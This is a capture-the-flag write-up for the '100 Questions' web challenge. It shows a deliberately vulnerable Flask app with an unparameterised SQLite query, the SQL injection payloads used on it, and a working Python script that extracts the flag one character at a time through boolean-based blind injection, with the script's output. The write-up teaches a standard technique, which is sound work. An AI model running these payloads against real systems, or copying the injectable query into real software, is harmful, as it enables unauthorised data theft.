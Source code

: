 # 100 Questions

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 137 solves / 50 points
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

I love doing practice papers! There are 100 questions, but the answers to some are more important than others...

Alternative URLs: [http://34.126.139.50:10513](http://34.126.139.50:10513) [http://34.126.139.50:10514](http://34.126.139.50:10514) [http://34.126.139.50:10515](http://34.126.139.50:10515)

[http://34.126.139.50:10512](http://34.126.139.50:10512)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520115724.png)

In here, we can type an answer based on the question's equation.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions/dist.zip):**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|11:58:13(HKT)]
└> file dist.zip 
dist.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|11:58:15(HKT)]
└> unzip dist.zip 
Archive:  dist.zip
  inflating: app.py                  
  inflating: database.db             
 extracting: requirements.txt        
  inflating: templates/index.html    
```

**In `app.py`, we can see the web application's main logic:**
```python
from flask import Flask, render_template, request
import sqlite3

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    qn_id, ans= request.args.get("qn_id", default="1"), request.args.get("ans", default="")

    # id check, i don't want anyone to pollute the inputs >:(
    if not (qn_id and qn_id.isdigit() and int(qn_id) >= 1 and int(qn_id) <= 100):
        # invalid!!!!!
        qn_id = 1
    
    # get question
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]

    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False

    return render_template("index.html", qn_id=qn_id, qn=qn, ans=ans, correct=correct)

if __name__ == "__main__":
    app.run()
```

In route `/`, it'll check the `qn_id` GET parameter's value is digit or not, and is between 1 to 100.

So... **No Server-Side Template Injection (SSTI) :(**

**Next, it'll fetch the question based on the `qn_id` GET parameter's value:**
```python
    # get question
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]
```

As you can see, it doesn't have any prepared statement. But, **since `qn_id` is validated**, we can't do SQL injection in here.

However, that's not the case in `ans` GET parameter :D

```python
    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False
```

Again, **no prepared statement, AND the `ans` parameter's value IS NOT validated.**

Which means we can do SQL injection in here!

**To get the answer correct, we just need to provide `' OR 1=1-- -` in the `ans` GET parameter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520120710.png)

Uhh... But where's the flag??? There's no flag in the web application...

## Exploitation

That being said, we need to **exfiltrate data from the database via SQL injection**.

Since there's no data is returned after the SQL query, Union-based SQL injection doesn't work in here. We try that:

**Found 3 columns in table `QNA`:**
```sql
' ORDER BY 3-- -
```

> Note: `ORDER BY 4` will trigger "500 INTERNAL SERVER ERROR", which means there are 3 columns.

**No data is returned:**
```sql
' UNION SELECT 'string1','string2','string3'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520121708.png)

Hence, this is a **Blind-based SQL injection**.

**More specifically, it's blind SQL injection with conditional responses:**
```sql
' OR 1=1-- -
' OR 1=2-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520125301.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230520125315.png)

**That being said, we should be able to exfiltrate data via `substr()` function in SQLite.**

> Note: The `Answer` column is interesting to us, so we first exfiltrate data from table `QNA` in column `Answer`.

**To do so, I'll write a Python script:**
```python
#!/usr/bin/env python3
import requests
import string

if __name__ == '__main__':
    URL = 'http://34.126.139.50:10512/'
    position = 1
    exfiltratedData = ''
    characters = string.ascii_letters + string.digits + '''!"$%'()*+,-./:;<=>?@[\\]^_`{|}~'''
    id = 1

    while True:
        for character in characters:
            payload = f'''2' AND (SELECT SUBSTR(Answer, {position}, 1) FROM QNA WHERE ID={id} LIMIT 1 OFFSET 0) = '{character}'-- -'''
            print(f'[*] Trying payload: {payload}', end='\r')
            requestResult = requests.get(f'{URL}?qn_id=1&ans={payload}')

            if 'Correct!' in requestResult.text:
                exfiltratedData += ''.join(character)
                print(f'[+] Found answer: {exfiltratedData} in question ID {id}, payload: {payload}')
                position += 1
                break
        else:
            print('[-] Looped through all potential characters, no matched character.\n')
            id += 1
```

This will loop through all questions and characters.

**Run the script, and you should find the flag in question ID 42:**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/100-Questions)-[2023.05.20|13:32:57(HKT)]
└> python3 solve.py
[...]
[+] Found answer: g in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 1, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'g'-- -
[+] Found answer: gr in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 2, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'r'-- -
[+] Found answer: gre in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 3, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'e'-- -
[+] Found answer: grey in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 4, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'y'-- -
[+] Found answer: grey{ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 5, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '{'-- -
[+] Found answer: grey{1 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 6, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '1'-- -
[+] Found answer: grey{1_ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 7, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '_'-- -
[+] Found answer: grey{1_c in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 8, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'c'-- -
[+] Found answer: grey{1_c4 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 9, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '4'-- -
[+] Found answer: grey{1_c4N in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 10, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = 'N'-- -
[+] Found answer: grey{1_c4N7 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 11, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '7'-- -
[+] Found answer: grey{1_c4N7_ in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 12, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '_'-- -
[+] Found answer: grey{1_c4N7_5 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 13, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '5'-- -
[+] Found answer: grey{1_c4N7_53 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 14, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '3'-- -
[+] Found answer: grey{1_c4N7_533 in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 15, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '3'-- -
[+] Found answer: grey{1_c4N7_533} in question ID 42, payload: 2' AND (SELECT SUBSTR(Answer, 16, 1) FROM QNA WHERE ID=42 LIMIT 1 OFFSET 0) = '}'-- -
[-] Looped through all potential characters, no matched character.
[...]
```

- **Flag: `grey{1_c4N7_533}`**

## Conclusion

What we've learned:

1. Exploiting Blind SQL Injection With Conditional Responses